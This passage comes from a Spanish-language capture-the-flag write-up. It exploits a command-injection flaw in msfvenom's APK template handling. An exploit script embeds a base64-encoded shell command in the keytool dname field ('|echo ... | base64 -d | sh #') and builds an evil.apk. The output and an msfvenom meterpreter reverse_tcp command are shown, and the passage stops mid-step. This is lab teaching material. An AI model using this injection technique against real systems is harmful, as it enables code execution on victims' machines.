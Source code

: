 ```python
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

Aunque no entiendas todo al menos lee con detenimiento y sobretodo **conoce que hace**. Importante ese **Change me** del script, ahí estará el payload que quieras añadir.

**Por conocer más**:  
Msfvenom tiene la vulnerabilidad en la llamada a la plantilla, ya que por lo visto se puede introducir un payload en la variable dname que corresponde al valor de la opción dname del comando keytook, opción que proporciona información de identidad a la clave que se genere.

Cambiaremos el payload del "Change me" por un ping hacia nuestra IP a ver si funciona. Así que en el script:

```python
... SNIP ..
# Change me
payload = 'ping -c 1 10.10.14.19'

... SNIP ...
```

Ejecutamos el script para crear la plantilla en formato apk:

```sh
❯ python3 createAPK.py
[+] Manufacturing evil apkfile
Payload: ping -c 1 10.10.14.19
-dname: CN='|echo cGluZyAtYyAxIDEwLjEwLjE0LjE5 | base64 -d | sh #

  adding: empty (stored 0%)
Generando par de claves RSA de 2.048 bits para certificado autofirmado (SHA256withRSA) con una validez de 90 días
	para: CN="'|echo cGluZyAtYyAxIDEwLjEwLjE0LjE5 | base64 -d | sh #"
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpd31m_r3o/evil.apk
Do: msfvenom -x /tmp/tmpd31m_r3o/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Se ha guardado en **/tmp/tmpd31m_r3o/evil.apk**. Voy a copiarlo y dejarlo en mi carpeta Descargas -para buscarlo más fácil y por tema de permisos-. Además cambiaré el propietario del apk por el mismo tema de los permisos con el navegador:
